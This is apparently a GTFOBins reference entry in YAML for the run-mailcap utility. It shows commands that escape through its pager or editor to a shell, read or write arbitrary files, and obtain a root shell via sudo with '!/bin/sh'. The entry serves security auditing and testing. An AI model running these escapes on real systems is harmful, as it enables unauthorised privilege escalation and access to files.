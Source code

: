 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        run-mailcap --action=view /etc/hosts
        !/bin/sh
  file-read:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: run-mailcap --action=view file_to_read
  file-write:
    - description: |
        The file must exist and be not empty.

        This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply.
      code: run-mailcap --action=edit file_to_read
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo run-mailcap --action=view /etc/hosts
        !/bin/sh
---
```

